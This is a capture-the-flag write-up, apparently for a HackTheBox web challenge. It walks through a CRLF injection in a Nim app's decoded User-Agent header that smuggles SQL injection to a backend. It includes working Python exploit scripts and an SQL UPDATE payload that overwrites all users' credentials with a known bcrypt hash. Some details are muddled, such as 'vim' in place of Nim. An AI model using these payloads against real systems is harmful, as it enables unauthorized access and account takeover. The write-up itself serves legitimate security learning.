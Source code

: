 # Introduction
The box gives us a login prompt with fields for `username` and `password`.
At first, I entered random credentials, and it kept showing "browser not supported".
Something felt off. Thankfully, HackTheBox provides us with the machine files.
Upon inspecting the files, I found some interesting things.

## Identifying the Vulnerability
The following code snippet from **_main.vim_** describes a check for SQL injection vulnerability:
```nim
proc containsSqlInjection(input: string): bool =
  for c in input:
    let ordC = ord(c)
    if not ((ordC >= ord('a') and ordC <= ord('z')) or
            (ordC >= ord('A') and ordC <= ord('Z')) or
            (ordC >= ord('0') and ordC <= ord('9'))):
      return true
  return false
```
While further inspecting the code, I discovered that the vulnerability lies in a function called `decodeUrl`.

This function decodes the `user-agent` header but does not properly validate or sanitize the decoded value.

This allows an attacker to inject **CRLF** characters to bypass the SQL injection check.

Here’s another snippet showing the vulnerable route:
```nim
routes:
  post "/user":
    let username = @"username"
    let password = @"password"
    if containsSqlInjection(username) or containsSqlInjection(password):
      resp msgjson("Malicious input detected")
    let userAgent = decodeUrl(request.headers["user-agent"])
    let jsonData = %*{
      "username": username,
      "password": password
    }
    let jsonStr = $jsonData

    let client = newHttpClient(userAgent)
    client.headers = newHttpHeaders({"Content-Type": "application/json"})

    let response = client.request(userApi & "/login", httpMethod = HttpPost, body = jsonStr)

    if response.code != Http200:
      resp msgjson(response.body.strip())
    
    resp msgjson(readFile("/flag.txt"))

runForever()
```
## Key Insight:
`vim` versions below 1.2.6 are vulnerable to CRLF attacks.

The Dockerfile shows the `vim` version at line 22.

This can be exploited by modifying the `user-agent` header to include a CRLF sequence in the POST request.

## Crafting the Exploit
The next step is to craft a script to check if the vulnerability can be exploited.

Here’s a Python script for the attack:
```python
import requests

def send_post_request(url, headers, data):
    x = requests.post(url, headers=headers, data=data)
    print(x.status_code)
    print(x.text)

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    "User-Agent": "Mozilla/7.0%0d%0aHello: test",
}

payload = b"username=aaaa&password=aa"

send_post_request("http://94.237.54.42:47968/user", headers, payload)
```

Note: I encoded `\r\n` as `%0d%0a`.

As a result, we receive a header `Hello` in the response.

## Performing SQL Injection
The frontend sends the body to the backend as JSON.

Thus, the payload should look like this:
``` python
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    "User-Agent": "Mozilla/7.0%0d%0a%0d%0a{\"username\":\"' OR '1'='1\"}",
}
```
## Additional Considerations

1.**Password Hashing**:
The password is hashed using bcrypt.

To store a valid hashed password in the database, we can reproduce the Go code and print the hashed value.

For example, the hash for `b` (salt is included)is:
```perl
$2a$10$OMv7TKyoqShcmWryPU9syOMr6PygopMySxuTfTcWZHy7fo/VS577S
```
2.**Content-Length**:
The request from the frontend to the backend must include a `Content-Length header`.
If the `username` and `password` fields are too short, the request will be truncated, and part of the payload may be lost.

To avoid this, ensure the body is large enough when sending the request.

The complete exploit is given below:
```python
import requests

URL = "http://94.237.54.42:47968/user" # replace with your instance

def send_post_request(url, headers, data):
	x = requests.post(url, headers=headers, data=data)
	print(x.status_code)
	print(x.text)

# SQL Injection: set all users' usernames to `a` and passwords to `b`
send_post_request(
	URL,
	{
    	'Content-Type': 'application/x-www-form-urlencoded',
    	"User-Agent": "Mozilla/7.0%0d%0a%0d%0a{\"username\":\"'; UPDATE users SET username = 'a', password = '$2a$10$OMv7TKyoqShcmWryPU9syOMr6PygopMySxuTfTcWZHy7fo/VS577S' WHERE '1'='1\"}",
	},
	b"username=aaaa&password="+ b"a" * 1024 # the body should be at least as big as the payload in the user-agent header, otherwise errors will occur
)

# Getting the flag by performing a valid login
send_post_request(
	URL,
	{
    	'Content-Type': 'application/x-www-form-urlencoded',
    	"User-Agent": "Mozilla/7.0",
	},
	b"username=a&password=b"
)
```
### The output should be as of follows:
```
200
{"msg": "Invalid username or password"}
200
{"msg": "HTB{g0_f1n8_3he_7l6g_y0ur$3lf_}"}
```

**Hope you’ve find this writeup helpful.
And happy pwning.**

